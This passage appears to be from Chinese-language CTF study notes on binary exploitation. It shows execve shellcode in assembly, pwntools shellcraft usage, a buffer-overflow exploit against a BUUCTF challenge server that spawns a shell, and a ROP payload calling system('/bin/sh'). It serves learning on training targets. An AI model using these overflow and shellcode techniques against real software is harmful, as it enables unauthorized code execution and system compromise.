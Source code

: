 ```
  push rbx
  push rsp 
  pop rdi                       
  push 0x3b
  pop rax
  syscall
```

##### 工具写shellcode

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。

```python
shellcraft.sh()	#默认生成的shellcode是32位的
shellcraft.amd64.sh()	#生成64位的
asm(shellcraft.sh())	#把shellcode转成机器码
#例子
shellcode = asm(shellcraft.sh())
```

32位exp，题目来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ez_pz_hackover_2016)

```python
from pwn import *
context(os="linux",arch="i386",log_level="debug")
p=remote('node5.buuoj.cn',27809)
#p=process('./ez_pz_hackover_2016')
p.recvuntil("0x")
stack=int(p.recv(8),16)
print(hex(stack))
p.recvuntil(b"> ")
# gdb.attach(p)
shellcode=asm(shellcraft.sh())
payload=flat(b'crashme\x00',b'a'*(0x16-0x4),p32(stack-0x1c),shellcode)
p.sendline(payload)
p.interactive()
```

#### ret2syscall

原理：通过ROP执行系统调用，利用系统调用来执行"/bin/sh"来拿shell

当程序没有system函数时，需要利用ROP，来执行执行execve("/bin/sh",null,null)，32位为int 0x80，64位为syscall ret

```bash
32位下：
  系统调用号，即 eax 应该为 0xb #64位是0x3b
  第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
  第二个参数，即 ecx 应该为 0
  第三个参数，即 edx 应该为 0
```

例子：来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_ne_5)该题是存在system函数，和"/bin/sh"，只需要把他们rop起来就行

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p=remote('node5.buuoj.cn',26132)
p=process('./ciscn_2019_ne_5')
elf=ELF('./ciscn_2019_ne_5')
system_addr=elf.sym['system']
sh_addr=0x80482ea
payload=b'A'*(0x48+0x4)+p32(system_addr)+p32(0x12345678)+p32(sh_addr)#由于利用printf()来执行所以填充的地址不能有\x00，所以是0x12345678
#gdb.attach(p)
#print(hex(system_addr))
p.sendlineafter('password:',b'administrator')
p.sendlineafter('Exit\n:',b'1')
```